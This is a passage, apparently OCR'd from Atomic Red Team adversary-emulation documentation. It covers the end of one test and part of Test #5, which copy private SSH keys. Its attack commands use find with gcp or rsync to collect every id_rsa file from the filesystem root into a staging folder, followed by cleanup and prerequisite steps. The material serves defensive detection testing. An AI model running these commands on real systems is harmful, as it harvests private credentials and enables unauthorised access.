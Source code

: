 #### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec gcp --parents {} #{output_folder} \;
```

#### Cleanup Commands:

```sh
rm -rf #{output_folder}
```

#### Dependencies: Run with `sh`!

##### Description: Install GNU cp from coreutils package.

##### Check Prereq Commands:

```sh
if [ ! -x "$(command -v gcp)" ]; then exit 1; else exit 0; fi;
```

##### Get Prereq Commands:

```sh
(which pkg && pkg install -y coreutils)
```

<br/>
<br/>

## Atomic Test #5 - Copy Private SSH Keys with rsync

Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux

**auto_generated_guid:** 864bb0b2-6bb5-489a-b43b-a77b3a16d68a

#### Inputs:

| Name          | Description                                              | Type | Default Value    |
| ------------- | -------------------------------------------------------- | ---- | ---------------- |
| search_path   | Path where to start searching from.                      | path | /                |
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging |

#### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
